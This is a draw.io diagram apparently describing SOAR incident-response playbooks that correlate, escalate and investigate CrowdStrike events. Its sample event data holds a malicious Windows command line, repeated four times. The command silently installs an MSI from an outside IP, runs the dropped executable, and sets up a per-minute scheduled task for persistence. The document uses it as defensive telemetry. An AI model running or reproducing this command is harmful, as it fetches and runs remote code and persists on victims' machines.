 <mxfile version="22.0.4" type="github">
  <diagram name="Page-1" id="wvW3ehxdYdoYtSaxa3fH">
    <mxGraphModel dx="724" dy="396" grid="1" gridSize="10" guides="1" tooltips="1" connect="1" arrows="1" fold="1" page="1" pageScale="1" pageWidth="850" pageHeight="1100" math="0" shadow="0">
      <root>
        <mxCell id="0" />
        <mxCell id="1" parent="0" />
        <mxCell id="NKeEgVbL9whLPdXC6YmX-3" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-1" target="NKeEgVbL9whLPdXC6YmX-2">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-1" value="Crowdstrike Event Correlation" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="60" y="1390" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-5" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-2" target="NKeEgVbL9whLPdXC6YmX-4">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-2" value="Triggers&lt;br&gt;- On Event Ingestion" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="260" y="1390" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-9" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-4" target="NKeEgVbL9whLPdXC6YmX-22">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="670" y="1420" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-4" value="Correlation" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="460" y="1390" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-11" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-8" target="NKeEgVbL9whLPdXC6YmX-10">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-16" value="True" style="edgeLabel;html=1;align=center;verticalAlign=middle;resizable=0;points=[];" vertex="1" connectable="0" parent="NKeEgVbL9whLPdXC6YmX-11">
          <mxGeometry x="0.151" y="-3" relative="1" as="geometry">
            <mxPoint as="offset" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-14" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-8" target="NKeEgVbL9whLPdXC6YmX-13">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-17" value="False" style="edgeLabel;html=1;align=center;verticalAlign=middle;resizable=0;points=[];" vertex="1" connectable="0" parent="NKeEgVbL9whLPdXC6YmX-14">
          <mxGeometry x="0.042" y="-4" relative="1" as="geometry">
            <mxPoint as="offset" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-8" value="Any Incident Linked?" style="rhombus;whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="860" y="1370" width="100" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-10" value="Added to the Related Incident" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="1119" y="1320" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-19" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-13" target="NKeEgVbL9whLPdXC6YmX-18">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-13" value="Check Artifacts" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="1119" y="1470" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-21" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-18" target="NKeEgVbL9whLPdXC6YmX-20">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-18" value="Escalate to Incident" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="1319" y="1470" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-20" value="Passdown" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="1519" y="1470" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-23" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-22" target="NKeEgVbL9whLPdXC6YmX-8">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-22" value="Link Incident with Same ID&lt;br&gt;Command - Link to Related Event Incident" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="650" y="1390" width="150" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-24" value="" style="endArrow=none;html=1;rounded=0;" edge="1" parent="1">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="730" y="1390" as="sourcePoint" />
            <mxPoint x="730" y="1320" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-28" value="&lt;h1&gt;API Response&lt;/h1&gt;&lt;p style=&quot;line-height: 50%;&quot;&gt;{&lt;/p&gt;&lt;p style=&quot;line-height: 50%;&quot;&gt;&amp;nbsp; &quot;Escalate Incidents&quot;: [&lt;/p&gt;&lt;p style=&quot;line-height: 50%;&quot;&gt;&amp;nbsp; &amp;nbsp; &quot;20230425-1573&quot;&lt;/p&gt;&lt;p style=&quot;line-height: 50%;&quot;&gt;&amp;nbsp; ]&lt;/p&gt;&lt;p style=&quot;line-height: 50%;&quot;&gt;}&lt;/p&gt;" style="text;html=1;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;strokeColor=default;fillColor=default;" vertex="1" parent="1">
          <mxGeometry x="640" y="1160" width="180" height="160" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-33" value="" style="endArrow=none;html=1;rounded=0;entryX=0.504;entryY=0.98;entryDx=0;entryDy=0;entryPerimeter=0;" edge="1" parent="1" target="NKeEgVbL9whLPdXC6YmX-8">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="910" y="1520" as="sourcePoint" />
            <mxPoint x="920.86" y="1470" as="targetPoint" />
            <Array as="points">
              <mxPoint x="910" y="1490" />
            </Array>
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-45" value="&lt;h1&gt;Condition Type - Input&lt;/h1&gt;&lt;p&gt;{% set returnData = PlaybookData | jsonpath(&#39;$.[&quot;Link Incident with Same ID&quot;].returnData&#39;) | string_to_json_object%}&lt;/p&gt;&lt;p&gt;&lt;br&gt;&lt;/p&gt;&lt;p&gt;{{returnData|jsonpath(&#39;$.[&quot;Escalate to Incidents&quot;]&#39;)|to_list|length &amp;gt; 0}}&lt;/p&gt;" style="text;html=1;strokeColor=default;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="815" y="1520" width="190" height="240" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-48" value="&lt;h1&gt;Data Formatter&lt;br&gt;&lt;/h1&gt;&lt;p&gt;{{{&quot;EscalateTo&quot;: PlaybookData | jsonpath(&#39;$.[&quot;Check Artifacts&quot;].returnData.Data[*].IncidentNo&#39;)|to_list}}}&lt;br&gt;&lt;/p&gt;" style="text;html=1;strokeColor=default;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="1210" y="1630" width="360" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-49" value="" style="endArrow=none;html=1;rounded=0;entryX=0.592;entryY=1.016;entryDx=0;entryDy=0;entryPerimeter=0;exitX=0.473;exitY=0;exitDx=0;exitDy=0;exitPerimeter=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-48">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="1320" y="1579.04" as="sourcePoint" />
            <mxPoint x="1380.04" y="1530" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-50" value="" style="rounded=0;whiteSpace=wrap;html=1;fillColor=none;" vertex="1" parent="1">
          <mxGeometry x="50" y="1090" width="1600" height="740" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-52" value="&lt;font style=&quot;font-size: 24px;&quot;&gt;Nested Playbook For CrowdStrike&lt;/font&gt;" style="text;html=1;strokeColor=#6c8ebf;fillColor=#dae8fc;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="80" y="1110" width="320" height="70" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-56" value="&lt;font style=&quot;font-size: 24px;&quot;&gt;Incident Playbooks - Cross Stack Investigation&lt;br&gt;&lt;/font&gt;" style="text;html=1;strokeColor=#6c8ebf;fillColor=#dae8fc;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="80" y="110" width="320" height="70" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-57" value="" style="rounded=0;whiteSpace=wrap;html=1;fillColor=none;" vertex="1" parent="1">
          <mxGeometry x="220" y="90" width="3460" height="820" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-60" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-58" target="NKeEgVbL9whLPdXC6YmX-59">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-72" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-58" target="NKeEgVbL9whLPdXC6YmX-71">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-58" value="CrowdStrike Data Ingestion" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="120" y="370" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-66" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-59" target="NKeEgVbL9whLPdXC6YmX-65">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-59" value="Investigation-Initial Findings&lt;br&gt;Commands - RSA_InvestigationTableUpdate" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="320" y="370" width="180" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-61" value="" style="endArrow=none;html=1;rounded=0;entryX=0.5;entryY=1;entryDx=0;entryDy=0;exitX=0.5;exitY=0;exitDx=0;exitDy=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-62" target="NKeEgVbL9whLPdXC6YmX-59">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="409.99" y="510.0" as="sourcePoint" />
            <mxPoint x="409.71" y="438.2" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-62" value="&lt;h1&gt;The Actual Data&lt;/h1&gt;&lt;p&gt;[&lt;/p&gt;&lt;p&gt;&amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;Host Name&quot;: [&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;LAB1-PC1&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;LAB1-PC1&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;LAB1-PC1&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;LAB1-PC1&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; ],&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;Source IP&quot;: [&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;10.82.0.24&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;10.82.0.24&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;10.82.0.24&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;10.82.0.24&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; ],&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;Command Line&quot;: [&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;cmd /c set/p=Set v=CreateObject(^\&quot;Wscript.Shell^\&quot;):v.Run ^\&quot;msiexec /q /i http://20.66.84.207/d3commander.msi^\&quot;,false,true:v.Run ^\&quot;c:\\windows\\commander.exe^\&quot;,false,true &amp;lt;nul &amp;gt;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs &amp;amp;schtasks /create /sc MINUTE /tn \&quot;Windows System\&quot; /tr \&quot;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs\&quot; /mo 1 /F&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;cmd /c set/p=Set v=CreateObject(^\&quot;Wscript.Shell^\&quot;):v.Run ^\&quot;msiexec /q /i http://20.66.84.207/d3commander.msi^\&quot;,false,true:v.Run ^\&quot;c:\\windows\\commander.exe^\&quot;,false,true &amp;lt;nul &amp;gt;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs &amp;amp;schtasks /create /sc MINUTE /tn \&quot;Windows System\&quot; /tr \&quot;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs\&quot; /mo 1 /F&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;cmd /c set/p=Set v=CreateObject(^\&quot;Wscript.Shell^\&quot;):v.Run ^\&quot;msiexec /q /i http://20.66.84.207/d3commander.msi^\&quot;,false,true:v.Run ^\&quot;c:\\windows\\commander.exe^\&quot;,false,true &amp;lt;nul &amp;gt;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs &amp;amp;schtasks /create /sc MINUTE /tn \&quot;Windows System\&quot; /tr \&quot;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs\&quot; /mo 1 /F&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;cmd /c set/p=Set v=CreateObject(^\&quot;Wscript.Shell^\&quot;):v.Run ^\&quot;msiexec /q /i http://20.66.84.207/d3commander.msi^\&quot;,false,true:v.Run ^\&quot;c:\\windows\\commander.exe^\&quot;,false,true &amp;lt;nul &amp;gt;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs &amp;amp;schtasks /create /sc MINUTE /tn \&quot;Windows System\&quot; /tr \&quot;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs\&quot; /mo 1 /F&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; ],&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;Event Time&quot;: [&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;2023-04-17T22:07:4.043Z&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;2023-04-17T22:07:4.043Z&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;2023-04-17T22:07:4.043Z&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;2023-04-17T22:07:4.043Z&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; ],&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;Data Source&quot;: [&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;CrowdStrike&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;CrowdStrike&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;CrowdStrike&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;CrowdStrike&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; ]&lt;/p&gt;&lt;p&gt;&amp;nbsp; }&lt;/p&gt;&lt;p&gt;]&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="285" y="500" width="250" height="160" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-68" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-65" target="NKeEgVbL9whLPdXC6YmX-67">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-65" value="Investigation-Initial Finding Behaviors&lt;br style=&quot;border-color: var(--border-color);&quot;&gt;Commands - RSA_InvestigationTableUpdate" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="570" y="370" width="180" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-67" value="Investigation-Summary&lt;br&gt;Commands - Add Investigation Details" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="830" y="370" width="140" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-76" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-71" target="NKeEgVbL9whLPdXC6YmX-75">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-71" value="Get Command Lines&lt;br&gt;Data Formatter" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="320" y="270" width="180" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-73" value="" style="endArrow=none;html=1;rounded=0;exitX=0.5;exitY=0;exitDx=0;exitDy=0;entryX=0.5;entryY=1;entryDx=0;entryDy=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-71" target="NKeEgVbL9whLPdXC6YmX-74">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="410" y="260" as="sourcePoint" />
            <mxPoint x="460" y="210" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-74" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;p&gt;{{PlaybookData | jsonpath(&#39;$.DataSource.incident.Events[*].EventData.behaviors[*].cmdline&#39;)|unique}}&lt;br&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="420" y="100" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-78" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-75" target="NKeEgVbL9whLPdXC6YmX-77">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
